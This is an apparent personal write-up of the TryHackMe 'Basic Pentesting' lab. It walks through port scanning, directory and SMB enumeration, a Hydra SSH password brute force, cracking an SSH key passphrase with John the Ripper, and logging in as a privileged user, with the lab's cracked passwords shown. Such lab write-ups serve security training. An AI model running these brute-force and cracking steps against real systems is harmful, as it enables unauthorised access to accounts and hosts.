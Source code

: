 > Sun 3 Aug 2025
> al3xx


![[Write-ups/TryHackMe/Linux/img/s8.png|350]]

# Basic Pentesting [Link](https://tryhackme.com/room/basicpentestingjt)

## 1. Reconnaissance
### TCP Scan
**command  :**
```bash
sudo nmap -sC -sV -T4 -oN nmap/nmap.txt 10.10.23.91
```

**Open ports**

| Port | Service     | Version                          |
| ---- | ----------- | -------------------------------- |
| 80   | http        | Apache httpd 2.4.41 ((Ubuntu))   |
| 22   | ssh         | OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 |
| 139  | netbios-ssn | Samba smbd 4                     |
| 445  | netbios-ssn | Samba smbd 4                     |
| 8009 | ajp13       | Apache Jserv (Protocol v1.3)     |

## 2. Enumeration
### HTTP Enumeration
- Port **80** is open.
- The website initially had no visible content.
- Used **Gobuster** to discover hidden directories:

**command  :**
```bash
gobuster dir -u http://10.10.23.91 -w /wordlist/wordlist.txt
```

- Found `/development` 
- Inside `/development` found two files: `dev.txt` and `j.txt`, containing a conversation between `-K` and `-J`.
- From these, learned that `-J` (user Jan) has a weak password.

### SMB Enumeration
- Ports **139** and **445** are open, indicating Samba file shares.
- Enumerated shares with:
**commands :**
```bash
$ smbclient -L //10.10.23.91/Anonymous -N
```
Found shares:
```

	Sharename       Type      Comment
	---------       ----      -------
	Anonymous       Disk
	IPC$            IPC       IPC Service (Samba Server 4.15.13-Ubuntu)
```
Connected to `Anonymous` share:
```
$ smbclient //10.10.23.91/Anonymous -N
```

Found `staff.txt`, revealing two users: **Kay** and **Jan**.

## 3. Exploitation
- Using info from `/development` and `staff.txt`, confirmed `-J` is user **Jan**.
- Brute-forced Jan’s SSH password with Hydra:
**command :**
```bash
$ hydra -l Jan -P /usr/share/wordlists/rockyou.txt ssh://10.10.23.91
```
result
```
[22][ssh] host: 10.10.23.91   login: jan   password: armando
```
Logged in as Jan via SSH:
```bash
$ ssh jan@10.10.23.91
```

## 4. Post-Exploitation
- Explored `/home/kay/.ssh` directory and found a private key file `rsa.txt`
- The private key is password protected.
- Converted the private key for John the Ripper using `ssh2john`:
```bash
ssh2john rsa.txt > new.txt
```
- Cracked the private key password with John:
```bash
john --wordlist=/usr/share/wordlists/rockyou.txt new.txt
```
**Password found:** `beeswax`

## 5. Privilege Escalation
Logged in as Kay using the private key and password:
```bash
ssh -i /tmp/priv.txt kay@10.10.106.25
```

- Enter the password:  
    `heresareallystrongpasswordthatfollowsthepasswordpolicy$$`
- Kay has **root privileges**.
